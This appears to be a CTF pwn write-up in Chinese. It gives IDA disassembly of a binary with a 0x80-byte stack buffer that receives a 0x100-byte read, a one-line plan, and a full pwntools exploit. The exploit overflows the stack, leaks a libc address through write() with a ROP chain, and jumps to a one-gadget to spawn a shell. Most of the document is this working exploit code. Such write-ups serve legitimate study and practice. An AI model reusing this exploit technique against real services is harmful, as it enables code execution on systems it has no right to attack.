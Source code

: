 ```
.text:0000000000400587 ; int __cdecl main(int argc, const char **argv, const char **envp)
.text:0000000000400587 public main
.text:0000000000400587 main proc near
.text:0000000000400587 ; __unwind {
.text:0000000000400587 push    rbp
.text:0000000000400588 mov     rbp, rsp
.text:000000000040058B mov     edx, 9          ; n
.text:0000000000400590 mov     esi, offset aWelcome ; "welcome~\n"
.text:0000000000400595 mov     edi, 1          ; fd
.text:000000000040059A call    _write
.text:000000000040059F call    vul
.text:00000000004005A4 mov     eax, 0
.text:00000000004005A9 pop     rbp
.text:00000000004005AA retn
.text:00000000004005AA ; } // starts at 400587
.text:00000000004005AA main endp

.text:0000000000400566 public vul
.text:0000000000400566 vul proc near
.text:0000000000400566
.text:0000000000400566 buf= byte ptr -80h
.text:0000000000400566
.text:0000000000400566 ; __unwind {
.text:0000000000400566 push    rbp
.text:0000000000400567 mov     rbp, rsp
.text:000000000040056A add     rsp, 0FFFFFFFFFFFFFF80h
.text:000000000040056E lea     rax, [rbp+buf]
.text:0000000000400572 mov     edx, 100h       ; nbytes
.text:0000000000400577 mov     rsi, rax        ; buf
.text:000000000040057A mov     edi, 0          ; fd
.text:000000000040057F call    _read
.text:0000000000400584 nop
.text:0000000000400585 leave
.text:0000000000400586 retn
.text:0000000000400586 ; } // starts at 400566
.text:0000000000400586 vul endp
```

总体思路就是栈溢出控制返回地址，执行 one-gadget。因此，我们还需要泄漏 libc 地址，程序里有 write() 函数可以利用。exp 如下所示：

```py
from pwn import *
context(os='linux', arch='amd64', log_level='debug')

io = process('./pwn1')
elf = ELF('./pwn1')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

pop_rsi_r15 = 0x400611
pop_rdi = 0x400613
write = 0x400595

payload = "A"*0x88 + p64(pop_rsi_r15) + p64(elf.got['write'])*2 + p64(write)

io.sendlineafter('welcome~\n', payload)

write_addr = u64(io.recv(8))
io.recv()

one_gadget = write_addr - libc.sym['write'] + 0x4527a
payload = "A"*0x88 + p64(one_gadget)

io.sendline(payload)

```